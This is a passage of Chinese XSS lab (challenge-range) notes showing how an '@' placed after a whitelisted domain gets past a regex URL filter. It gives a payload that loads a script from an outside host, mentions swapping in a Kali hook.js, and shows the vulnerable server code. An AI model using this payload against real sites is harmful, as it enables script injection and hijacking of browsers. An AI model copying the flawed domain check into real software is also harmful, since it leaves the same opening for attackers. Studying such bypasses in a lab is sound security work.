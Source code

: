 

## 0x0A——利用`@`绕过关于网址部分元素替换的过滤

```
域名@网站2[放在公网上的js文件]

http://www.segmentfault.com@http://sqlilabs.njhack.xyz/A.js
```

利用放在公网上的js文件——可以被替换成kali上做的hook.js

加上了@之后，也会同时加载后面的网站

![image-20220116114921835](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116114921835.png)

```
[html]
script src="http:&#x2f&#x2fwww.segmentfault.com@http:&#x2f&#x2fsqlilabs.njhack.xyz&#x2fA.js"></script>

[server code]
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f')
  }

  const domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${escapeHtml(input)}"></script>`
  }
  return 'Invalid URL'
}
```
